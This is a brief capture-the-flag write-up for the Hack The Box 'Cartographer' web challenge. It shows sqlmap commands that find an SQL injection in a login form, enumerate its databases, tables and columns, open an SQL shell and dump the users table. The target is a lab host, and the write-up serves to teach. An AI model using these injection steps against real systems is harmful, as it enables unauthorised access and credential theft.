 # Cartographer
Solution to Hack The Box Challenge - Cartographer

### Problem

It's a web that exposes you a login form and you must discover the username and password to gain access.

### Solution

SQL Injection using SQLMap. <br>
[SQLMap - automatic SQL injection](http://sqlmap.org/)

Tell SQLMap to detect vulnerabilites sending a payload example (extracted from the form)
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd"
```

SQL detect a vulnerability that you can exploit. So you tell it to list all the dbs
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --dbs
```

It has the dbs. So list the tables
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --tables -D cartographer
```

It has the tables. So list the columns of the table that I was interested.
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --colums -T users -D cartographer
```

It has all the info. So I want to use a sql query to consume it. SQLMap can give me access to a SQL console using this command
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" -D cartographer --sql-shell
```

Send a query to get the accounts.
```bash
sql-shell> SELECT * FROM cartographer.users
```
